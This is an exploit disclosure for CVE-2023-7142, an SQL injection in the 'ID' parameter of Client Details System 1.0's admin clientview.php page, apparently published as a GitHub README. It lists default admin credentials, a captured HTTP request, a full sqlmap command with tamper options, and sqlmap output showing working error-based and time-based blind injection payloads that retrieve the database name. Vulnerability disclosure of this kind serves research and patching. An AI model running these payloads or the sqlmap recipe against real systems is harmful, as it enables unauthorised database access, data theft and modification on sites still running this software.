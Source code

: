 # CVE-2023-7142_Client_Details_System-SQL_Injection_6
+ **Exploit Title:** CVE-2023-7142_Client_Details_System-SQL_Injection_6
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7142

## References: 
+ **CVE-2023-7142:** https://vuldb.com/?id.249145
+ https://www.cve.org/CVERecord?id=CVE-2023-7142
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7142

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'ID' in "/clientdetails/admin/clientview.php?ID=2". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Client Details: "http://localhost/clientdetails/admin/clientview.php"
+ Then select the any client.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/clientview.php?ID=2 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'ID' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p ID --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: ID (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: ID=2' AND EXTRACTVALUE(9984,CONCAT(0x5c,0x7170706b71,(SELECT (ELT(9984=9984,1))),0x71766b6b71))-- TRvU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ID=2' AND (SELECT 4084 FROM (SELECT(SLEEP(5)))ERbG)-- puQq
---
[18:03:35] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:03:35] [INFO] fetching current database
[18:03:35] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![6](https://github.com/h4md153v63n/CVEs/assets/5091265/e4e81845-617f-4d1b-9c1d-b4bae4f5fc73)
